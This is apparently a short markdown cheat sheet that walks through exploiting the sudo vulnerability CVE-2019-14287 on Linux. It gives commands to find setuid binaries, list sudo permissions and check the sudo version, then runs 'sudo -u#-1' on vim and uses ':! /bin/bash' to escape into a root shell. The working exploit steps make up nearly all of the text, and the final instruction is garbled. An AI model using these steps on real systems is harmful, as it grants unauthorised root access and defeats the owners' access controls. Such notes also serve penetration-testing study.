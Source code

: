 ### Locate the Sudo 
```
find / -perm -4000 -type f 2>/dev/null
find / -name sudo -type f -executable 2>/dev/null 
```

### List Sudo Permissions
```
sudo -l
/usr/bin/sudo -l
/usr/local/bin/sudo -l
```
- User ***USER*** may run the following commands on server:
    (ALL, !root) /usr/bin/vim
    
### Sudo Version
```
/bin/sudo --version
/usr/local/bin/sudo --version
```
- CVE-2019-14287 affects version of Sudo prior to 1.8.28, so you're looking for version numbers lower than this.

**Add the `-u#-1` flag to your sudo command to launch the 'forbidden' binary as root**
```
/usr/local/bin/sudo -u#-1 /usr/bin/vim
```
- this will bring up a `vim` page.

**Save the file as**
```
:! /bin/bash
```
- `Do not write into the file with 'insert', but save the type the above command on the filename and enter.`